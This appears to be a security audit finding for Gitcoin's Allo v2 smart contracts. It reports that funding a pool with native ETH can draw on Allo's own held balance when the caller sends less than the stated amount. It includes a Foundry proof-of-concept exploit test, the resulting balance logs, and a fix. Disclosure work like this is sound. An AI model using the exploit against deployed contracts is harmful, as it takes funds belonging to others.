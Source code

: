 Digital Berry Horse

medium

# Allo contract's funds can be used for paying funding fees
## Summary
Allo contract's funds can be used for paying funding fees.
## Vulnerability Detail
Allo contract can hold funds in two ways: 

1.  A _pool admin_ mistakenly sends funds when using _registerRecipient_, which will be locked in Allo, since the msg.value is not used when calling the strategy's _registerRecipient_.
2. Funds are sent as a donations, as stated in the docs: _Funds sent to Allo.sol are considered a gift to the Allo protocol team_

Once Allo contract holds some funds, a user can fund a pool that uses the native token with a lower _msg.value_ than _amount_ parameter. When paying the _feeAmount_ and _amountAfterFee_ for funding the pool the _Transfer_ library will be used. The check _msg.value < amount_ will pass because the check is done separately for both payments. This will result in funds being sent from Allo in order to fund the strategy contract, since the _msg.value_ will not be sufficient. PoC:

          function test_fundPoolAttacker() public {
            uint256 percentFee = 1e17;
    
            allo().updatePercentFee(percentFee); // 10%
            address attacker = makeAddr("Attacker");
    
            vm.deal(pool_admin(), 100 * 1e18);
            vm.deal(attacker, 100 * 1e18);
    
            console.log("***** STARTING BALANCES *****");
            console.log("Pool admin ETH balance: %d", address(pool_admin()).balance);
            console.log("Attacker ETH balance: %d", attacker.balance);
            console.log("Allo contract ETH balance: %d", address(allo()).balance);
            console.log("Treasury ETH balance: %d", allo().getTreasury().balance); 
            console.log("*****************************");
    
            vm.prank(pool_admin());
            uint256 poolId = allo().createPoolWithCustomStrategy(
                poolProfile_id(), strategy, "0x", NATIVE, 0, metadata, pool_managers()
            );
            vm.prank(pool_admin());
            // Pool admin mistakenly sends ETH to Allo contract
            // Or funds are sent as a donations, as stated in the docs: 
            // "Funds sent to Allo.sol are considered a gift to the Allo protocol team"
            allo().registerRecipient{value: 100 * 1e18}(poolId, bytes(""));
    
            vm.prank(attacker); // Sends 90 in msg.value, but 100 in the amount parameter
            allo().fundPool{value: 90 * 1e18}(poolId, 100 * 1e18);
    
            console.log("***** FINAL BALANCES *****");
            console.log("Pool admin ETH balance: %d", address(pool_admin()).balance);
            console.log("Attacker ETH balance: %d", attacker.balance);
            console.log("Allo contract ETH balance: %d", address(allo()).balance);
            console.log("Treasury ETH balance: %d", allo().getTreasury().balance);
            console.log("Strategy contract ETH balance: %d",address(strategy).balance); // Receives the whole 90 sent in msg.value
            console.log("*****************************");
            // pool_admin is not able to get funds back
        }

Output:
  ***** STARTING BALANCES *****
  Pool admin ETH balance: 100000000000000000000
  Attacker ETH balance: 100000000000000000000
  Allo contract ETH balance: 0
  Treasury ETH balance: 0
  *****************************
  ***** FINAL BALANCES *****
  Pool admin ETH balance: 0
  Attacker ETH balance: 10000000000000000000
  Allo contract ETH balance: 90000000000000000000
  Treasury ETH balance: 10000000000000000000
  Strategy contract ETH balance: 90000000000000000000
  *****************************
## Impact
Mistakenly sent funds and donation funds can be used for paying the fees of funding a pool that uses the native token.
## Code Snippet
Funding the pool:
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/Allo.sol#L496-L520
Transfer library function used for making the payments:
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/libraries/Transfer.sol#L70-L81
Documentation of funding a pool:
https://docs.allo.gitcoin.co/allo/flow-of-funds#funding-a-pool
Register recipient function which is payable, but the _msg.value_ will be sent to Allo instead of the strategy:
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/Allo.sol#L301-L304
## Tool used

Manual Review and Foundry

## Recommendation
Even if sending funds mistakenly to the contract when using _registerRecipient()_ may be users mistake, I would make this function non payable. Also, when funding a pool, there must be a check that _msg.value > amount (parameter)_ when using native token in order to prevent Allo from paying instead of the user.